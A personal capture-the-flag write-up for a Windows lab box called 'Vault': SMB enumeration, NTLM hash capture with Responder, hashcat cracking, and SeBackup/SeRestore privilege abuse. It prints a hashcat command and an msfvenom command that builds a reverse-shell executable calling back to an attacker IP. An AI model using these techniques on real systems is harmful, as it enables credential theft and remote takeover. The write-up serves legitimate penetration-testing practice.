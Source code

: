 # Vault

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

i add the domain in my hosts file and look for anonymous access and smb shares:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The write permission on a share is rather unusual to my knowledge in those types off boxes but i already saw it during some previous stuff so i tried using responder to catch some NTML creds:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this is rather strange since i did not do anything, maybe something to do with the fact that i added the domain in my hosts file idk. since i won't be lucky like this every time here is a good article about abusing NTLM relay attacks:

{% embed url="https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/" %}

Or this one:

{% embed url="https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html" %}

Then i launch my hashcat:

```
hashcat -m 5600 /usr/share/wordlists/rockyou.txt.gz ntmlhash.txt
```

{% hint style="info" %}
_**added after completing the box**_: I looked at the WU to maybe discover other routes or techniques and this writeup does a very good job at explaining how to exploit writeable shares&#x20;
{% endhint %}

and i discovered the password and quickly understand why this box is rated easy:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok i didn't say anything i can't read proof.txt yet:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i quickly see that i have SeBackupPrivilege

{% embed url="https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md" %}

So i follow all the steps and manage to dump the admin hash:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and it does not work lol:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I looked and this account does not have winrm rights, ouch the box seems a bit trickier than expected

I thought to myselft that i jumped on SeBackupPrivilege so quickly that i did not look into the other privileges such as the restore privilege:

{% embed url="https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------" %}

After looking at how the script works we need to craft a reverse shell exe to use it as an argument:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.51 LPORT=80 -f exe -o reverse.exe
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

for some reason it did not work until i put the absolute path of reverse.exe
